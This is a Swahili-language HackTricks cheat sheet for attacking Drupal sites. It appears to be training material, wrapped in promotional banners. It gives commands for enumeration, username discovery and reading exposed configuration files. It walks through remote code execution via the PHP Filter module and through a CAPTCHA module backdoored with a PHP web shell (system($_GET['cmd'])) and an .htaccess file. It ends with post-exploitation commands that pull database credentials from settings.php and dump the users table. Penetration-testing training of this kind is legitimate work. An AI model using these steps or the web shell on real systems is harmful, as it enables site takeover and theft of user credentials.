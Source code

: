 # Drupal

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Ufumbuzi

* Angalia **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **huiweka maudhui yake kwa kutumia nodes**. Node inaweza **kuwa na chochote** kama chapisho la blogu, kura, makala, n.k. URI za kurasa kawaida ni kama `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Uchambuzi

Drupal inasaidia **aina tatu za watumiaji** kwa chaguo-msingi:

1. **`Msimamizi`**: Mtumiaji huyu ana udhibiti kamili wa tovuti ya Drupal.
2. **`Mtumiaji Aliyethibitishwa`**: Watumiaji hawa wanaweza kuingia kwenye tovuti na kutekeleza shughuli kama vile kuongeza na kuhariri makala kulingana na ruhusa zao.
3. **`Mgeni`**: Wageni wote wa tovuti wanachukuliwa kama wageni. Kwa chaguo-msingi, watumiaji hawa wanaruhusiwa tu kusoma machapisho.

### Toleo

* Angalia `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Mipangilio mapya ya Drupal kwa chaguo-msingi huzuia ufikiaji wa faili za `CHANGELOG.txt` na `README.txt`.
{% endhint %}

### Uainishaji wa Jina la Mtumiaji

#### Jisajili

Katika _/user/register_ jaribu kuunda jina la mtumiaji na ikiwa jina tayari limechukuliwa utapewa taarifa:

![](<../../.gitbook/assets/image (325).png>)

#### Omba nenosiri jipya

Ikiwa unauliza nenosiri jipya kwa jina la mtumiaji lililopo:

![](<../../.gitbook/assets/image (900).png>)

Ikiwa unauliza nenosiri jipya kwa jina la mtumiaji lisilopo:

![](<../../.gitbook/assets/image (304).png>)

### Pata idadi ya watumiaji

Kwa kufikia _/user/\<number>_ unaweza kuona idadi ya watumiaji waliopo, kwa mfano hapa ni 2 kwani _/users/3_ inarudisha kosa la kutopatikana:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Kurasa Zilizofichwa

**Fanya Utafutaji `/node/$` ambapo `$` ni nambari** (kutoka 1 hadi 500 kwa mfano).\
Unaweza kupata **kurasa zilizofichwa** (jaribio, maendeleo) ambazo hazitajwi na injini za utaftaji.

#### Taarifa za Moduli Zilizosanikishwa
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Kiotomatiki
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Kwa Moduli ya PHP Filter

{% hint style="warning" %}
Katika toleo za zamani za Drupal **(kabla ya toleo la 8)**, ilikuwa inawezekana kuingia kama admin na **kuwezesha moduli ya `PHP filter`**, ambayo "Inaruhusu nambari/vitambulisho vya PHP vilivyofungwa kutekelezwa."
{% endhint %}

Unahitaji **programu-jalizi ya php iwe imewekwa** (angalia kwa kufikia _/modules/php_ na ikiwa inarudisha **403** basi, **ipo**, ikiwa **haipatikani**, basi **programu-jalizi ya php haijawekwa**)

Nenda kwa _Modules_ -> (**Angalia**) _PHP Filter_ -> _Hifadhi mazingira_

![](<../../.gitbook/assets/image (247) (1).png>)

Kisha bofya _Ongeza maudhui_ -> Chagua _Ukurasa wa Msingi_ au _Makala_ -> Andika _nambari ya php ya kabati kwenye mwili_ -> Chagua _Nambari ya PHP_ katika _Muundo wa Maandishi_ -> Chagua _Onesha_

![](<../../.gitbook/assets/image (335).png>)

Hatimaye tuifikie nodi iliyoanzishwa hivi karibuni:
```bash
curl http://drupal-site.local/node/3
```
### Sakinisha Moduli ya PHP Filter

Kuanzia toleo **8 na kuendelea**, [**Moduli ya PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **haitasakinishwa kwa chaguo-msingi**. Ili kutumia kazi hii, tutalazimika **kusakinisha moduli wenyewe**.

1. Pakua toleo jipya zaidi la moduli kutoka kwenye tovuti ya Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Baada ya kupakua, nenda kwa **`Utawala`** > **`Ripoti`** > **`Visasisho vinavyopatikana`**.
3. Bonyeza **`Tafuta`**, chagua faili kutoka kwenye saraka tuliyoidownload, kisha bonyeza **`Sakinisha`**.
4. Baada ya moduli kusakinishwa, tunaweza bonyeza **`Maudhui`** na **umba ukurasa mpya wa msingi**, kama tulivyofanya kwenye mfano wa Drupal 7. Tena, hakikisha **uchague `Msimbo wa PHP` kutoka kwenye menyu ya `Muundo wa Matini`**.

### Moduli yenye mlango wa nyuma

Moduli yenye mlango wa nyuma inaweza kuundwa kwa **kuongeza ganda kwenye moduli iliyopo**. Moduli zinaweza kupatikana kwenye tovuti ya drupal.org. Chagua moduli kama vile [CAPTCHA](https://www.drupal.org/project/captcha). Endelea chini na nakili kiungo cha tar.gz cha [kumbukumbu](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Pakua kumbukumbu na fichua maudhui yake.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Unda **PHP web shell** na maudhui:
```php
<?php
system($_GET["cmd"]);
?>
```
* Kisha, tunahitaji kuunda faili ya **`.htaccess`** ili kupata ufikivu wa folda. Hii ni muhimu kwani Drupal inakataa ufikivu moja kwa moja kwenye folda ya **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Mipangilio hapo juu itatumika kwa sheria za folda ya / tunapouliza faili katika /modules. Nakili faili zote mbili kwenye folda ya captcha na unda kiunzi.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Kukadiria kwamba tuna **upatikanaji wa utawala** kwenye tovuti, bonyeza **`Manage`** kisha **`Extend`** kwenye upau wa pembeni. Kisha, bonyeza kitufe cha **`+ Install new module`**, na tutapelekwa kwenye ukurasa wa kusakinisha, kama vile `http://drupal-site.local/admin/modules/install` Tafuta kwenye nyaraka ya Captcha iliyoharibiwa na bonyeza **`Install`**.
* Mara tu usakinishaji unapofanikiwa, tafuta **`/modules/captcha/shell.php`** kutekeleza amri.

## Baada ya Kuvamia

### Soma settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Pindua watumiaji kutoka kwenye DB
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Marejeo

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
